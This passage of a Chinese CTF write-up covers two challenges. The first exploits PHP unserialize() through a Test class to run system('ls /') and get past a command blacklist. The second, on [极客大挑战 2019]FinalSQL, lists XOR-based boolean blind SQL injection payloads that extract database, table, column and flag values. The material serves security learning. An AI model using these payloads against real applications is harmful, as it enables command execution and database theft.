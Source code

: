 之所以会自动传参data(Y-m-d h:i:s a)是因为写了个隐含的post传输，而不是调用定义的Test类，之前我还疑惑来着，还好回去看了html部分的代码![](https://i.loli.net/2021/07/18/e6Zjto1QRmq93MA.png)

再回头看着黑名单这一长串，正常传有点困难，发现定义了个Test类，而且没有禁用unserialize()，那么这里就可以尝试传入反序列化，当传入的对象被销毁的时候就会调用Test类里的__destruct()方法，输出gettime($this->func, $this->p);的结果从而绕过黑名单
那么构造一下payload：

```php
<?php

class Test {
        var $p = "ls /";
        var $func = "system";
    }

echo urlencode(serialize(new Test())); # 这里因为是普通的var，用不用urlencode都行，个人习惯
```

```z
传入：
func=unserialize&p=生成的序列化数据
```

成功执行命令，那么就是找flag啦![](https://i.loli.net/2021/07/18/7PY94vZug8KWoaM.png)

（根目录没看见flag，本来说想尝试下写shell的，但是看了一下权限是普通的www-date，还是老老实实find了）
最终payload：
![](https://i.loli.net/2021/07/18/ApezJG5iv1aMbPF.png)

![](https://i.loli.net/2021/07/18/ERyYKaVMIZ7zrJm.png)



### [极客大挑战 2019]FinalSQL——脚本bool盲注

可以看到第一行就提示sql盲注00，那么就是找注入点写脚本了![](https://i.loli.net/2021/07/18/HtFQ5xLupbDWIiv.png)点这几个小方块，根据提示找到url/search.php?id=6![](https://i.loli.net/2021/07/18/AZUNctB4u6TMGYL.png)

过滤了绝大部分东西，试了一下异或1^1 和 1^0，可以发现回显的不一样，可以尝试bool注入
后面构造payload

```mysql
# 数据库 (geek)
1^(ascii(substr(database(),%d,1))>%d)^1

# 爆表 (F1naI1y,Flaaaaag )
1^(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),%d,1))>%d)^1

# 爆字段 (id,username,password)
1^(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='F1naI1y')),%d,1))>%d)^1

# 爆flag之username（mygod,welcome,site,site,site,site,Syc,finally,flag）
1^(ascii(substr((select(group_concat(username))from(F1naI1y)),%d,1))>%d)^1

# 爆flag（限定为username为flag然后爆破）
1^(ascii(substr((select(password)from(F1naI1y)where(username='flag')),%d,1))>%d)^1

```
